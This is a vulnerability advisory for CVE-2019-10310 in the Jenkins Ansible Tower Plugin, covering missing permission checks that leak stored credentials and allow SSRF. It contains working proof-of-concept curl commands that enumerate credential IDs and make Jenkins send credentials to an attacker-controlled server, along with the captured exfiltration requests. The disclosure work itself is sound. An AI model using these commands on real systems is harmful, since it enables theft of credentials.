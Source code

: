 ## Jenkins Ansible Tower Plugin - Information disclosure vulnerability

##### Discovered by:
* Peter Adkins <peter.adkins@kernelpicnic.net>

##### Access:
* Local network; authenticated access
* Remote network; authenticated access (See notes)
* Remote network; 'drive-by' via CSRF

##### Tracking and identifiers:
* CVE - CVE-2019-10310

##### Versions Affected:
* Jenkins Ansible Tower Plugin 0.9.1

##### Vendor involvement:
* 2019-03-12 - Vendor Disclosure
* 2019-04-30 - Vendor Patched
* 2019-05-06 - Public Release

##### Notes:
1. This may be exploited by an anonymous user if unauthenticated access is enabled in Jenkins.

1. As this vulnerability is exploitable through HTTP GET request, this vulnerability may also be exploited via Cross Site Request Forgery (CSRF).

1. Originally published under [TALOS-2019-0786](https://talosintelligence.com/vulnerability_reports/TALOS-2019-0786). Mirrored here here for tracking purposes.

##### Overview:
An exploitable information disclosure vulnerability exists in the `testTowerConnection` function of the Jenkins Ansible Tower Plugin 0.9.1. A specially crafted HTTP request from a user with Overall/Read permissions - such as an anonymous user, if enabled - can cause affected versions of this plugin to disclose credentials from the Jenkins credentials database to an attacker-controlled server.  This vulnerability is also present in the `fillTowerCredentialsIdItems` endpoint exposed by this plugin, which allows for the enumeration of credentials identifiers required for this attack to be successful.

In addition to the above, if the responding server does not return properly formatted JSON document, the response will be reflected to the user as part of the reported error resulting in an HTTP GET only Server Side Request Forgery (SSRF).

##### Analysis:
This vulnerability exists in the `testTowerConnection` endpoint exposed by the `doTestTowerConnection` method of `org.jenkinsci.plugins.ansible_tower.util.TowerInstallation` due to missing Jenkins permissions check. The same missing permissions check also exists in the `doFillTowerCredentialsIdItems` method, which yields the ability to enumerate credentials.

Due to the way in which this plugin expects to authenticate against the remote Ansible Tower instance, the credentials associated with the attacker specified `towerCredentialsId` are base64-encoded and submitted as part of the HTTP Authorization header to the attacker-controlled server, and are also included plaintext in a JSON document submitted to the attacker specified endpoint. An example of this attack against a Jenkins 2.165 instance running a vulnerable version of this plugin and configured to allow anonymous read access has been provided below.

```
# List credentials on target Jenkins instance.
$ curl -s -X GET -G \
    -d 'pretty=true' \
    'http://127.0.0.1:8080/jenkins/descriptorByName/org.jenkinsci.plugins.ansible_tower.util.TowerInstallation/fillTowerCredentialsIdItems'
{
"_class" : "com.cloudbees.plugins.credentials.common.StandardListBoxModel",
"values" : [
    {
    "name" : "- none -",
    "selected" : false,
    "value" : ""
    },
    {
    "name" : "BBBBBB/****** (ExampleOnly)",
    "selected" : false,
    "value" : "01e367ef-54fb-4da0-8044-5112935037bb"
    },
    {
    "name" : "SecureUsername/****** (Credentials for X)",
    "selected" : false,
    "value" : "287fcbe2-177e-4108-ac58-efdc0a507376"
    },
    {
    "name" : "A Secret Text Entry",
    "selected" : false,
    "value" : "532ba431-e25d-4aad-bc74-fb5b2cc03bd7"
    }
]
}

# Send credentials to an attacker's server (http://127.0.0.1:7000?).
# The trailing '?' is to ensure that the expected path is appended as a
# query parameter, rather than part of the query path.
#
# Two requests are performed by Jenkins here. The first is a 'ping', which
# requires that the target respond with a well formed JSON response -
# though any JSON response will do. If this first request fails, the reply
# will be reflected to the client (SSRF). If it succeeds, a subsequent
# POST will be performed which contains the credentials.
#
$ curl -s -X GET -G \
    -d 'towerURL=http://127.0.0.1:7000/report.json?' \
    -d 'towerTrustCert=false' \
    -d 'enableDebugging=true' \
    -d 'towerCredentialsId=287fcbe2-177e-4108-ac58-efdc0a507376' \
    'http://127.0.0.1:8080/jenkins/descriptorByName/org.jenkinsci.plugins.ansible_tower.util.TowerInstallation/testTowerConnection'
```

The request submitted by the plugin to the remote server as an HTTP GET, will appear similar to the following:

```
# First request from Jenkins (GET)
/report.json?/api/v2/ping/
Host: 127.0.0.1:7000
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1-alpha1 (java 1.5)

# Second request from Jenkins (POST)
/report.json?/api/v2/authtoken/
Authorization: Basic U2VjdXJlVXNlcm5hbWU6U2VjdXJlUGFzc3dvcmRPaE5v
Content-Type: application/json
Content-Length: 61
Host: 127.0.0.1:7000
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1-alpha1 (java 1.5)

{"username":"SecureUsername","password":"SecurePasswordOhNo"}
```
